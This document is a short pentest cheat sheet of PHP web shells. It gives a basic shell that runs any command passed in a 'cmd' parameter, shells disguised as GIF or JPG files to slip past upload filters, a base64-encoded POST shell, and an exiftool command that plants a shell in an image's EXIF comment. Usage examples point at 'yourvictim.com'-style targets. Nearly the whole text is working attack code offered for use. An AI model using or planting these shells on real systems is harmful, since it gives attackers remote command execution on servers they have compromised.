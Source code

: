 More examples here
-------------------
https://github.com/jivoi/pentest/tree/master/shell

Simple PHP Webshell
-------------------
usage: http://www.yourvictim.com/shellname.php?cmd=whoami

```html
html
<html>
 <head>
  <title>PHP Test</title>
 </head>
 <body>
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
 </body>
</html>
```

PHP web shell in a GIF or JPG with curl example
----------------------
```bash
echo 'FFD8FFEo' | xxd -r -p > test.gif
echo '<?php $c=$_GET['c']; echo `$c`; ?>' >> test.gif
curl -v http://ololo/uploads/test.gif?c=id
```

PHP web shell in GIF or JPG
--------------------
```php
GIF89a
<?php
echo "<pre>";
system($_GET['cmd']);
echo "</pre>";
?>
#http://victims.site.com/phpwebshell.gif?cmd=dir
```

Base64 Encoded PHP webshell
--------------------
```php
<?php $c=shell_exec(base64_decode($_POST['cmd'])); echo base64_encode($c);?>
#http://victims.site.com/phpwebshell.php?cmd=dir
```

Add webshell using EXIF fields
--------------------
```bash
exiftool -Comment="<?php passthru(\$_GET'cmd'); _halt_compiler();" ./picture.jpg
```




